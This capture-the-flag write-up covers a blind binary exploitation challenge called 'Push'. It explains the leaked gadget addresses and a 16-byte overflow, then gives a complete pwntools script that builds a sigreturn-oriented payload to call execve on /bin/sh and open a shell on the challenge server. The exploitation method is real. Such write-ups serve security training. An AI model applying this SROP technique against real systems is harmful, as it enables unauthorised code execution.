 # Push

Author: v10l3nt

## Description

Remember those Sarah McLaughlan commercials about the puppies? We do. We made a blind challenge to remind you about the heartbreak.

0.cloud.chals.io:21978

## Overview

The first push returned gives the address to a `pop rax; pop rax; pop rax; pop rax; ret` gadget. The value `0x58` is the opcode for `pop rax`. The second push returns the opcode of `0x0f05` which is `syscall`.

Poking at the input shows that inputing 16 charaters will break the program. This probably means the buffer is 8 charaters and the second set of 8 is rbp.

The easiest way to exploit it is to create a sigreturn frame and call `execve` on the address of `/bin/sh`. 

## Solution

```python
from pwn import *

binary = args.BIN

context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
e = ELF(binary)
r = ROP(e)

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.attach(e.path)
    elif args.REMOTE:
        return remote('0.cloud.chals.io', 21978)
    else:
        return process(e.path)

p = start()

buffer = b'a'*16

p.recvuntil(b' : ')
bin_sh  = int(p.recvline(), 16)

p.sendline(b'>>> ')
p.sendline(b'Y')
p.recvuntil(b' | ')
pop_rax = int(p.recvline(), 16) + 6

p.sendline(b'>>>')
p.sendline(b'Y')
p.recvuntil(b' | ')
syscall = int(p.recvline(), 16) + 4

log.success(f"/bin/sh : {hex(bin_sh)}")
log.success(f"pop rax; ret : {hex(pop_rax)}")
log.success(f"syscall; ret : {hex(syscall)}")

frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdi = bin_sh
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall

payload = buffer
payload += p64(pop_rax)
payload += p64(0xf)
payload += p64(syscall)
payload += bytes(frame)

p.sendline(payload)

p.interactive()
```

